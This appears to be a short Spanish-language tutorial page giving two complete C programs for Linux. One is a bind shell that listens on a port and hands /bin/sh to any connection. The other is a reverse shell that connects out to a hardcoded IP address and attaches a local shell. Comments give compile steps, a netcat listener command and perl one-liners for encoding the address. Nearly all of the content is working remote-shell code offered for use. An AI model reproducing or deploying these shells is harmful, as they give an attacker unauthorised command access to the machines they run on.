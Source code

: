 <p>
	En linux usando sockets y la llamada dup se puede crear una especie de shell remoto de forma muy sencilla,</p>
<p>
	&nbsp;</p>
<pre class="brush: js">
#include <unistd.h>
#include <sys socket.h="">
#include <netinet in.h="">

int main () {

int sock,canal;
struct sockaddr_in dir_servidor;

dir_servidor.sin_family=2;
dir_servidor.sin_addr.s_addr=0;
dir_servidor.sin_port=0x1337;

sock=socket(2,1,0);

bind(sock,(struct sockaddr *) &amp;dir_servidor,0x10);

listen(sock,1);

canal = accept(sock,0,0);

dup2(canal,0);
dup2(canal,1);

execve(&quot;/bin/sh&quot;,0,0);

}

</netinet></sys></unistd.h></pre>
<p>
	&nbsp;</p>
<p>
	Hacer un shell inverso tampoco es complicado, luego basta con usar netcat al otro lado.</p>
<pre>
/**
* reverseshell.c
* Shell inverso. Se conecta a un socket externo
* y asocia a un shell local.
* Para generar una IP en hexadecimal
*   perl -e &#39;printf &quot;0x&quot; . &quot;%02x&quot;x4 . &quot;n&quot;,249,1,168,192&#39;
* El puerto tb es un n&uacute;mero hexadecimal:
*   perl -e &#39;printf &quot;0x&quot; . &quot;%04x&quot; . &quot;n&quot;,14099&#39;
*   darle la vuelta al resultado por pares: 0x3713 pasar a 0x1337
* Para compilar:
* gcc -o reverseshell reverseshell.c
* Para comprobar:
* nc -l -p  14099
*/

#include <unistd.h>
#include <sys socket.h="">
#include <netinet in.h="">

int main () {

int canal;
struct sockaddr_in dir_servidor;

dir_servidor.sin_family=2;
dir_servidor.sin_addr.s_addr=0xf901a8c0;
dir_servidor.sin_port=0x1337;

canal=socket(2,1,6);

connect(canal,(struct sockaddr *) &amp;dir_servidor,0x10);

dup2(canal,0);
dup2(canal,1);

execve(&quot;/bin/sh&quot;,0,0);

}
</netinet></sys></unistd.h></pre>
